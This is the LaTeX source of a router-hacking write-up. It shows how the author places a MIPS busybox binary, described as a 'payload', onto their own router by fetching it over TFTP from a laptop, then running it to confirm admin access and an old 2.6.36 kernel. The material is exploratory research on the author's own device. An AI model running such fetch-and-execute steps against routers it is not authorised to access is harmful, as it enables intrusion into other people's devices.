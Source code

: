 \documentclass[12pt,a4paper, brazil]{article}
\begin{document}
\begin{tcolorbox}[colback=red!10, title=We Set Up Our TFTP Server]
We need to prepare our \textbf{payload}. In this case, it will be a version of busybox for MIPS (\emph{busybox-mipsel}). We must download the file from this web server: \href{https://busybox.net/downloads/binaries/1.16.1/}{https://busybox.net/downloads/binaries/1.16.1/} and select the \emph{busybox-mipsel} file.

The steps followed are:

\begin{itemize}
    \item \textbf{SUBNET:} Connect the laptop to the router so that they are on the same subnet (my laptop gets the IP address 192.168.0.10).
    \item \textbf{TFTP:} Install a TFTP server and place the downloaded file in the root directory so we can fetch the more powerful busybox.
    \item \textbf{Connecting from the router to the server:} We want to download \emph{busybox-mipsel} into the /var directory of the router. To do that, on the router we execute:
    \begin{itemize}
        \item \textbf{cd /var} (to access /var, the only writable directory).
        \item \textbf{tftp -g -r busybox-mipsel 192.168.0.10} (parameters used: g = get, r = remote).
    \end{itemize}
    \item \textbf{Downloaded:} We need to make it executable by running \textbf{chmod +x busybox-mipsel}.
\end{itemize}
\end{tcolorbox}

Once we have \emph{busybox-mipsel} inside the router, we can run it using \emph{./busybox-mipsel} (from the /var directory, where we downloaded it, of course). Then we can observe three things (see Figure~\ref{fig:busyboxgrande}):

\begin{itemize}
    \item When executing \emph{./busybox-mipsel}, we see that the number of available commands is much greater than with the default busybox on the router.
    \item We can now run \textbf{whoami} to see which user is assigned. The user is \textbf{admin}.
    \item We can now view kernel details (2.6.36) on a MIPS architecture. It is surprising that a router purchased in 2023 uses a 2010 kernel. Being so old, there are likely several vulnerabilities we can exploit.
\end{itemize}
\end{document}
